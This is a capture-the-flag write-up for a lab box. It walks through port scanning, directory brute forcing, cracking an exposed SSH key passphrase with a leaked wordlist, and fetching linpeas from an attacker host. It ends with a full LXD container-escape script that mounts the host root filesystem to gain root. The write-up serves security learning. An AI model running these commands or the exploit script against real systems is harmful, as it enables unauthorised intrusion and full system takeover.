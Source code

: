 ## Target IP: 10.10.76.242

---

### Environment Variables

```bash
export IP=10.10.76.242
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_results.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 7.6p1 |
| 80 | HTTP | Apache 2.4.29 |

---

### Web Enumeration

Visited: `http://$IP`

→ Fantasy-themed website for "draagan"

---

### Directory Brute Force

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/dirb/common.txt -c --recursion
```

**Discovered:**

- `/robots.txt`
- `/secret`
- `/uploads`

---

### Pages and Contents

- `/robots.txt` → Mentions that uploads are allowed
- `/secret` → Contains an RSA key file
- `/uploads` → Shows 3 files:
    - `dict.lst` (password list)
    - `manifesto.txt`
    - `meme.jpg`

Downloaded everything:

```bash
wget -r -np -nH --cut-dirs=1 http://$IP/uploads
```

Checked:

- `meme.jpg` with `strings` and `binwalk` → nothing useful
- `manifesto.txt` → looks like junk
- `dict.lst` → password list with entries like:

```
...
spring2015
spring2014
spring2013
Summer2017
Summer2016
...
```

---

### Username Discovery

Found in site source code:

```html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

→ Tried SSH with `john`

---

### SSH Key Crack and Login

Key was in `/secret`, so:

```bash
chmod 600 secretKey
ssh -i secretKey john@$IP
# → asked for passphrase
```

Prepared for cracking:

```bash
ssh2john secretKey > rsa_hash.txt
john rsa_hash.txt --wordlist=dict.lst
```

**Password found:**

```
[REDACTED]
```

SSH again:

```bash
ssh -i secretKey john@$IP
# Enter passphrase: [REDACTED]
```

→ Logged in as `john@exploitable`

---

### User Flag

Found in home directory:

```bash
cat user.txt
# → [REDACTED]
```

---

### Privilege Escalation Attempt

`sudo -l` fails because we don’t know john’s password.

---

### LinPEAS

On attacker machine:

```bash
cp /opt/linpeas/linpeas.sh .
python3 -m http.server 80
```

On victim machine:

```bash
wget http://10.6.24.56:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Returned:

- `AdminIdentities=unix-group:sudo;unix-group:admin`
- User is in group: `john adm cdrom sudo dip plugdev lxd`

---

### LXD Privilege Escalation

Followed this guide from Exploit-DB:

https://www.exploit-db.com/exploits/46978

**Steps:**

---

### On Attacker Machine:

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
bash build-alpine
# (must be run as root)
```

---

### On Victim Machine:

Saved the following exploit as a bash script:

```bash
function helpPanel(){
  echo -e "\nUsage:"
  echo -e "\t[-f] Filename (.tar.gz alpine file)"
  echo -e "\t[-h] Show this help panel\n"
  exit 1
}

function createContainer(){
  lxc image import $filename --alias alpine && lxd init --auto
  echo -e "[*] Listing images...\n" && lxc image list
  lxc init alpine privesc -c security.privileged=true
  lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
  lxc start privesc
  lxc exec privesc sh
  cleanup
}

function cleanup(){
  echo -en "\n[*] Removing container..."
  lxc stop privesc && lxc delete privesc && lxc image delete alpine
  echo " [√]"
}

set -o nounset
set -o errexit

declare -i parameter_enable=0; while getopts ":f:h:" arg; do
  case $arg in
    f) filename=$OPTARG && let parameter_enable+=1;;
    h) helpPanel;;
  esac
done

if [ $parameter_enable -ne 1 ]; then
  helpPanel
else
  createContainer
fi
```

Ran it with:

```bash
bash exploit.sh -f alpine.tar.gz
```

Got a shell inside a privileged LXD container.

From there, accessed the host's root filesystem at:

```bash
cd /mnt/root
```

---

### Root Flag

```bash
find / -name "root.txt"
cat /mnt/root/root/root.txt
# → [REDACTED]
```
